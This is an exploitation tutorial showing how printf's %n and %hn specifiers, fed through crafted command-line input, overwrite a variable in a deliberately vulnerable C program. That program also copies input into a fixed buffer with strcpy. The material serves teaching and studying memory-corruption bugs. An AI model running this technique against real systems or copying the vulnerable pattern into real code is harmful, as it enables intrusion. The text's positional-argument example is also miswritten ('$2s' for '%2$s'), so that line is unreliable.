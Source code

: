 ## Writing to an arbitrary address

`printf` has a little known format parameter - `%n` - that writes the number of bytes written so far. The argument it takes is a memory address - something we know we can control.

~~~ c
#include <stdlib.h>
#include <stdio.h>

int
main(int argc, char* argv[])
{
  unsigned int var = 0xAAAAAAAA;
  char buffer[512];
  strcpy(buffer, argv[1]);
  printf(buffer);
  printf("\n");
  printf("var = 0x%08x and is located at %p\n", var, &var);
  exit(0);
}
~~~

We can see use this to overwrite an address with a different value:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "DDDD"+"%08x"*6 + "%p"')
DDDDffffdd20f7ffcf1cf7fefe7a00000008f7fefe66f7ffd0000x44444444
var = 0xaaaaaaaa and is located at 0xffffdb1c
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "\x1c\xdb\xff\xff"+"%08x"*6 + "%n"')
▒ffffdd20f7ffcf1cf7fefe7a00000008f7fefe66f7ffd000
var = 0x00000034 and is located at 0xffffdb1c
~~~

The `%n` modifier writes 32 bits which is a little unwildly. We can use `h` to write half (16 bits) instead.

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "\x1c\xdb\xff\xff"+"%08x"*6 + "%hn"')
▒ffffdd1ff7ffcf1cf7fefe7a00000008f7fefe66f7ffd000
var = 0xaaaa0034 and is located at 0xffffdb1c
~~~

Instead of overwriting the target address with a 32 bit value, we'll overwrite the upper and lower halves separately. This means we'll use 2 `%hn` modifiers - the first will write to `<address>` and the second to `<address+2>` - for a total of 32 bits.

`printf` can also take positional arguments - so `printf("$2s, $1s", "first arg", "second arg")` would print `second arg, first arg`. We will replace the `%08x` padding with this - it's equivalent (as in `printf` will jump down the stack) and saves space in the format string (in case our user input is limited). After some trial and error we have:

~~~ shell
vagrant@vagrant:~/scratch$ /home/vagrant/scratch/a.out $(python -c 'print "DDDDEEEE" + "%00000x%7$p%00000x%8$p"')
DDDDEEEEffffdd200x44444444f7ffcf1c0x45454545
var = 0xaaaaaaaa and is located at 0xffffdb1c
~~~
